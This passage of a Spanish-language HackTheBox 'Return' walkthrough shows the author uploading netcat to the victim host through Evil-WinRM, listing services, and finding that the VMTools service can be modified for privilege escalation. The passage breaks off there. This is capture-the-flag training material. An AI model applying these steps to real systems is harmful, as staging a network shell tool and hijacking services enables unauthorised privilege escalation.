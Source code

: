 <img src="/assets/HTB/Return/server.png">

Primero de todo subimos la herramienta `netcat` a la máquina víctima

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload /home/yorch/Labs/HackTheBox/Return/content/nc.exe
Info: Uploading /home/yorch/Labs/HackTheBox/Return/content/nc.exe to C:\Users\svc-printer\Desktop\nc.exe

                                                             
Data: 37544 bytes of 37544 bytes copied

Info: Upload successful!
```
Listamos servicios que están corriendo

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
Si tratamos de crear un servicio nuevo no nos deja por lo que vamos a tratar de modificar uno ya existente. Probamos de uno en uno hasta que vemos que nos lo permite. Probamos WMPNetworkSvc, WinDefend y WdNisSvc sin éxito pero con VMTools nos lo permite
